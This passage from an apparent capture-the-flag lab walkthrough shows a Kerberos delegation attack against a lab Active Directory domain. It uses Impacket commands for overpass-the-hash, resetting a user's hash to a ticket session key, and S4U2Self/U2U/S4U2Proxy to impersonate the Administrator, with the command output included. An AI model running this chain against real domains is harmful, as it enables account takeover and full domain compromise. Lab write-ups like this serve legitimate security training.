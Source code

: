 First, we retrieved the TGT using **Overpass-the-Hash**, extracted the TGT session key, and replaced it with the domain user’s **NTHash**.

```
root@eagle:~/Vulnlab/Machines/Phanthom# impacket-getTGT -hashes :$(pypykatz crypto nt 'Phantom2023!') phantom.vl/WSILVA                                                   
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in WSILVA.ccache
```

```
root@eagle:~/Vulnlab/Machines/Phanthom# impacket-describeTicket WSILVA.ccache | grep 'Ticket Session Key'
[*] Ticket Session Key            : c645fe88ba7d20bfc73f18791155b28e
```

```
root@eagle:~/Vulnlab/Machines/Phanthom# impacket-changepasswd -newhashes :c645fe88ba7d20bfc73f18791155b28e 'phantom.vl'/'WSILVA':'Phantom2023!'@dc.phantom.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of phantom.vl\WSILVA
[*] Connecting to DCE/RPC as phantom.vl\WSILVA
[*] Password was changed successfully.
[!] User will need to change their password on next logging because we are using hashes.
```

With **S4U2Self** and **U2U**, using **WSILVA**, we could obtain a service ticket to itself on behalf of the administrator. We then proceeded to **S4U2Proxy** to obtain a service ticket for the target that the user could delegate to.

```
KRB5CCNAME=./WSILVA.ccache impacket-getST -u2u -impersonate "Administrator" -spn "host/dc.phantom.vl" -k -no-pass phantom.vl/WSILVA
```

<img src="attachments/419940abc9a0831e0b4ed9794e20d96a.png" />
